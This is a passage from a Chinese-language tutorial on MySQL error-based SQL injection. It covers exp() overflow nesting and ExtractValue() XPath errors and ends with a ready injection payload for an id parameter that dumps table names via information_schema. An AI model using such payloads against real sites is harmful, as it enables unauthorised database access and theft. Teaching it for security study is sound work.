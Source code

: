 exp()函数套用两层的子查询的原因：

1. 先查询 select user() 这里面的语句，将这里面查询出来的数据作为一个结果集 取名为 a
2. 再 select from a 查询a ,将结果集a 全部查询出来；这里必须使用嵌套，因为不使用嵌套不加select from 无法大整数溢出。
### ExtractValue()
函数语法：`extractvalue(xml_frag,xpath_expr)`
适用范围：5.1.5+
报错原理:
Xpath格式语法书写错误的话，就会报错，如下所示
```sql
mysql> SELECT extractvalue('<a><b>x</b><b>y</b></a>','/a/b') as result;
+--------+
| result |
+--------+
| x y    |
+--------+
```
```sql
 SELECT extractvalue('<a><b>x</b><b>y</b></a>','#username') as result
> 1105 - XPATH syntax error: '#username'
> 时间: 0.001s
```
> 由于此报错注入和updatexml都只能爆最大32位，如果要爆出32位之后的数据，需要借助mid函数进行字符截取从而显示32位以后的数据

mid函数

| 参数 | 描述 |
| --- | --- |
| column_name | 必需。要提取字符的字段 |
| start | 必需。开始位置 |
| length | 可选。要返回的字符数。如果省略，则 MID() 函数返回剩余文本 |

```sql
?id=1' 
and extractvalue(1,
mid(concat(0x23,(SELECT group_concat(table_name) from information_schema.tables where table_schema = database())
,0x23),1,32))--+
```
![image.png](./MySQL注入基础.assets/2023_05_19_10_41_14_VWinxIZ3.png)
